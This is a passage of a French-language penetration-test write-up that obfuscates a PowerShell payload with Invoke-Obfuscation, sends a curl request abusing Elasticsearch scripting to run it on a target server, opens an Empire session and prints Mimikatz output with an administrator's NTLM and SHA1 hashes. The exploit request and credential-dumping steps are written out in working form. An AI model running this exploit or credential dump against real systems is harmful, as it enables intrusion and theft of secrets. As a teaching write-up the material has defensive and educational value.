```pwsh
Invoke-Obfuscation> SET scriptblock "<le payload>"
Invoke-Obfuscation> TOKEN
Invoke-Obfuscation\Token> ALL
Invoke-Obfuscation\Token\All> 1
```

Le script Powershell retourne la commande offusquée

```
Result: 
&("{2} [...] [chAR]92)
```

### Exécution du payload

Une fois tous ces éléments mis en place, une requête a été envoyée au serveur cible pour qu'elle exécute le Powershell préparé.

```bash
$ curl http://localhost:9200/_search?pretty -XPOST -d '
    {"script_fields":
        {"myscript":
            {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"powershell -EncodedCommand <PAYLOAD>\").getText()"
            }
        }
    }'
```
 

Le serveur exécutant ce code, une session Empire a été ouverte, permettant d'effectuer des actions plus complexes sur la machine.

### Récupération des credentials

Une fois la session Empire ouverte, il était possible de lancer l'outil Mimikatz afin de récupérer des secrets d'identification sur la machine.

```
[...]
Authentication Id       : 0 ; 33291243 (00000000:01fbfbeb)
Session                 : RemoteInteractive from 5
User Name               : adm-hackndo 
Domain                  : hackndocorp 
Logon Server            : HACKNDODC1 
Logon Time              : 7/26/2018 2:24:42 PM 
SID                     : S-1-5-21-724041197-931238763-3737651182-1473 
    msv : 
        [00000003] Primary 
        * Username  : adm-hackndo 
        * Domain    : hackndocorp 
        * NTLM      : 25a3352bb80ed96e7e8a270d4fcca6b3 
        * SHA1      : bc41d7ccecbbae8ed496c2af21132a70310b73fa
        [00010000] CredentialKeys 
        * NTLM      : 25a3352bb80ed96e7e8a270d4fcca6b3 
        * SHA1      : bc41d7ccecbbae8ed496c2af21132a70310b73fa
    tspkg : 
    digest : 
        * Username  : adm-hackndo 
        * Domain    : hackndocorp 
        * Password  : (null)
    kerberos : 
        * Username  : adm-hackndo 
        * Domain    : FR.HACKNDOCORP.INTRANET 
        * Password  : (null)
    ssp :
    credman :
```